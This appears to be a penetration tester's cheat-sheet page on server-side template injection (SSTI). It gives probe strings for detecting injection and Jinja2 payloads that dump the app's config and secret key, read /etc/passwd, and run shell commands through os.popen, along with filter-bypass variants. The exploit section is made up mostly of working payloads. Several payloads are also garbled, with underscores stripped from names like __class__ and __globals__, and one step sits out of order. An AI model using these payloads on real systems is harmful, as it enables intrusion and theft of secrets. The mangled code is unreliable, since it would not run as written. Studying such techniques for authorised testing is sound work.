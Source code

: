 # SSTI

[https://github.com/payloadbox/ssti-payloads](https://github.com/payloadbox/ssti-payloads)

Step 1: Find an injection point, attempt basic payloads and see if app is vulnerable to SSTI.

Can be via input box, or in the URL

Basic Identification:

```
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
*{7*7}
```

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

### Exploit

### Jinja2

* Dump all the config variables, will show the secret key, if the variable is set

```
{{ config }} 
```

<figure><img src="../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

### Jinja Injection without \<class 'object'>&#x20;

* From the there is another way to get to RCE without using that class.&#x20;
* \*\*\*\*If you manage to get to any function from those globals objects, you will be able to access **globals**.**builtins** and from there the RCE is very simple.&#x20;
* You can find functions from the objects request, config and any other interesting global object you have access to with:&#x20;

```
{{ request.__class__.__dict__ }}
application
_load_form_data
on_json_loading_failed ​ {{ config.class.dict }}
init
from_envvar
from_pyfile
from_object
from_file
from_json
from_mapping
get_namespace
repr ​
# You can iterate through children objects to find more
```

* Once you have found some functions you can recover the builtins with:

```
# Read File
{{ request.class._load_form_data.globals.builtins.open("/etc/passwd").read() }} ​
# RCE
{{ config.class.from_envvar.globals.builtins.import("os").popen("ls").read() }} {{ config.class.from_envvar["globals"]["builtins"]"import".popen("ls").read() }} {{ (config|attr("class")).from_envvar["globals"]["builtins"]"import".popen("ls").read() }} ​
{{ a }}​ ## Extra ## The global from config have a access to a function called import_string ## with this function you don't need to access the builtins {{ config.__class__.from_envvar.__globals__.import_string("os").popen("ls").read() }} ​ 
# All the bypasses seen in the previous sections are also valid
```

If it is, the next step is determining the engine that is running the application&#x20;

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
